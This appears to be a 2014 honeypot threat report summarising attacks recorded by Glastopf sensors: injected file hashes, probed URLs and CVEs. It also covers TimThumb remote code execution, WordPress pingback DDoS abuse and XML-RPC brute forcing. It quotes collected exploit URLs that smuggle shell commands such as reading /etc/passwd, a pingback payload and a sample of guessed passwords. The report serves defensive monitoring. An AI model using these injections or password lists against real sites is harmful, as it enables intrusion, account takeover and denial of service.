


**During the month of June the following information was obtained from Glastopf installations worldwide**

**Geographical spread**

**10 most popular injected files during the period**

Short introduction to RFI:

“Remote File Inclusion (RFI) is a type of vulnerability most often found on websites. It allows an attacker to include a remote file, usually through a script on the web server. The vulnerability occurs due to the use of user-supplied input without proper validation. This can lead to something as minimal as outputting the contents of the file or more serious events such as: Code execution on the web server .. “ source: Wikipedia

<table><tbody><tr><td><strong>Hash</strong></td><td><strong>Hits</strong></td><td><strong>VirusTotal detection ratio</strong></td></tr><tr><td>30a7bb30303f7da9ad102edc313dc80e</td><td>929</td><td>0 / 52</td></tr><tr><td>ab4d03072cc0532afc83d13854ed7e4f</td><td>577</td><td>22 / 49</td></tr><tr><td>474c4daeff3d82ae49d7c96acb8c0d84</td><td>514</td><td>21 / 53</td></tr><tr><td>9f67913d2c77545a4187053ad18230e4</td><td>496</td><td>7 / 52</td></tr><tr><td>369aab6f3a40d0259e6b036b68c27d25</td><td>411</td><td>7 / 54</td></tr><tr><td>10b5c4f77bbd80a3886e591dc3426198</td><td>267</td><td>N / A</td></tr><tr><td>6427bb17f4922b82c0147099429cfef9</td><td>203</td><td>3 / 53</td></tr><tr><td>be52cd4e8a8f6e42418c87d3468bba20</td><td>191</td><td>9 / 51</td></tr><tr><td>f922514cec9b9dc9c74b99ce9e39d3bc</td><td>164</td><td>15 / 53</td></tr><tr><td>46f5757064a2a0a081d6fd099f2916b5</td><td>159</td><td>18 / 46</td></tr></tbody></table>

Note: VirusTotal scan was performed on the 20:th of July 2014. N/A means that the injected binary was no longer present at it's original location and no sample could be acquired

**Top pick from list of requested resources**

Glastopf is a web application Honeypot which emulates vulnerabilities and lures the attacker that the requested service/application is vulnerable to gather data from attacks targeting web applications.

<table><tbody><tr><td><strong>Resource</strong></td><td><strong>Count</strong></td></tr><tr><td>admin</td><td>467194</td></tr><tr><td>administrator/index.php</td><td>73285</td></tr><tr><td>changes.html</td><td>13193</td></tr><tr><td>wp-login.php</td><td>11248</td></tr><tr><td>awstats/awstats.pl</td><td>9961</td></tr><tr><td>robots.txt</td><td>8620</td></tr><tr><td>xmlrpc.php</td><td>8175</td></tr><tr><td>index.php?app=core&amp;module=global§ion=login&amp;do=process</td><td>7339</td></tr><tr><td>phpMyAdmin-2.5.5/index.php</td><td>3738</td></tr><tr><td>phpMyAdmin-2.5.5-pl1/index.php</td><td>3712</td></tr><tr><td>awstats/awstats.pl?framename=mainright&amp;output=refererpages</td><td>3538</td></tr></tbody></table>

**Other requests that are interesting to highlight**

<table><tbody><tr><td><strong>Resource</strong></td><td><strong>Reference</strong></td><td><strong>CVE</strong></td></tr><tr><td>plugin_googlemap2_proxy.php</td><td>http://securityvulns.ru/docs29645.html</td><td>CVE-2013-4764</td></tr><tr><td>HNAP1/</td><td>http://tools.cisco.com/security/center/viewAlert.x?alertId=32899</td><td>CVE-2013-5122</td></tr><tr><td>rom-0</td><td>http://www.exploit-db.com/exploits/33803/</td><td>CVE-2014-4019</td></tr><tr><td>cgi-bin/rtpd.cgi</td><td>http://www.coresecurity.com/advisories/d-link-ip-cameras-multiple-vulnerabilities</td><td>CVE-2013-1599</td></tr></tbody></table>

**And a few findings that we found extra interesting**

**TimThumb Remote Code Execution: webshot**

**About**

TimThumb is a small php script for cropping, zooming and resizing web images (jpg, png, gif).

**Exploitation**

`http:///wp-content/themes//path/to/timthumb.php?webshot=1&src=http:// $()`

Please see the URL below for more information about this vulnerability **URL** http://cxsecurity.com/issue/WLB-2014060134

**Example of collected requests** `http:///wp-content/themes/eGallery/HTTP/wp-content/themes/eGallery/timthumb.php?webshot=1&src=http:///$(ls)`

http:///wp-content/themes/eGallery/HTTP/wp-content/themes/eGallery/timthumb.php?webshot=1&src=http:///$(touch$IFS/tmp/a.txt)

`http:///wp-content/themes/eGallery/HTTP/wp-content/themes/eGallery/timthumb.php?webshot=1&src=http:// /$(cat$IFS/etc/passwd)`

**WordPress Pingback.ping DDoS attempts**

**About**

pingback.ping, is a legit WordPress feature misused to DoS victims using legit WordPress sites.

Please see the URL below for more information about this vulnerability **URL** http://blog.sucuri.net/2014/03/more-than-162000-wordpress-sites-used-for-distributed- denial-of-service-attack.html

**Exploitation**

`pingback.pinghttp://victim.com www.anywordpresssite.com/postchosenparam>'`

**Victims per category**

In an attempt to visualise the type of targets for these attacks we took the help of the public available resource: sitereview.bluecoat.com to categorise the targeted sites

Many of the sites categorised as not yet rated by the webfilter vendor, ended up being sites offering DDoS services, many of them protected by legit DDoS protection services.

**WordPress wp.getUsersBlogs brute force attempts**

**Comment** We were able to quickly detect wp.getUserBlogs attempts when they "started", now a month later there are several blog post describing the issue.

The first occurrences detected was on the 29:th of June, targeting only a limited amount of Honeypots and originated from two European countries.

**About** "This attack is being made possible because many calls in the WordPress XMLRPC implementation required a username and password. It these attacks, we are seeing wp.getUsersBlogs being used (and very few times wp.getComments), but it could be other calls as well. If you provide a user and a password to them, it will reply back if the combination is correct or not:" sucuri.net

Please see the URL below for more information about this vulnerability **URL** http://blog.sucuri.net/2014/07/new-brute-force-attacks-exploiting-xmlrpc-in-wordpress.html

**Exploitation** `wp.getUsersBlogs admin112233`

**Passwords**

The list is quite long, so here is a small sample

<table><tbody><tr><td>password</td><td>melody</td><td>master</td></tr><tr><td>gogogo</td><td>"name of the domain"</td><td>admin</td></tr><tr><td>12345678</td><td>trustno1</td><td>test</td></tr><tr><td>secret</td><td>reset123</td><td>qwerty123</td></tr><tr><td>pass</td><td>fuck</td><td>audrey</td></tr><tr><td>admin123</td><td>1qaz2wsx</td><td>123</td></tr><tr><td>12345</td><td>123456</td><td>123456789</td></tr><tr><td>1111</td><td>zaq12wsx</td><td>yellow</td></tr><tr><td>wisdom</td><td>winter</td><td>windows</td></tr></tbody></table>

**Summary**

This was a small excerpt from the collected data. I hope this encouraged you to continue to have hpfeeds enabled (or to enable it, if you have turned it off) on your honeypot/honeypots as the data gives a very valuable insight into current threats globally.

**System reference:**

“Glastopf is a Honeypot which emulates thousands of vulnerabilities to gather data from attacks targeting web applications. The principle behind it is very simple: Reply the correct response to the attacker exploiting the web application.”

For more information please visit: **URL** http://www.glastopf.org/index.php or https://github.com/glastopf/glastopf

All data was collected using hpfriends, for more information please visit **URL** http://hpfriends.honeycloud.net/
